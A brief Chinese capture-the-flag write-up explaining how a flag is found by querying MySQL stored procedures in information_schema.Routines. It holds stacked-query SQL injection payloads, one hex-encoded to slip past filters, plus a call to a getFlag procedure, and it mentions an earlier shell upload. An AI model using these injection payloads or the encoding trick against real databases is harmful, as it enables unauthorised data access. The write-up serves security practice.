


# 知识点
### 查看MySQL的存储过程
[MySQL——查看存储过程和函数](https://blog.csdn.net/qq_41573234/article/details/80411079)
# 思路
上传shell找遍了，也没找到flag<br />看别人博客说是考查看MySQL的存储过程
> 在  MySQL 中，存储过程和函数的信息存储在  information_schema  数据库下的  Routines  表中，可以通过查询该表的记录来查询存储过程和函数的信息

```plsql
';prepare h from 0x53454c454354202a2046524f4d20696e666f726d6174696f6e5f736368656d612e526f7574696e6573;execute h;--+
# SELECT * FROM information_schema.Routines
'; call getFlag();--+
```
<br />

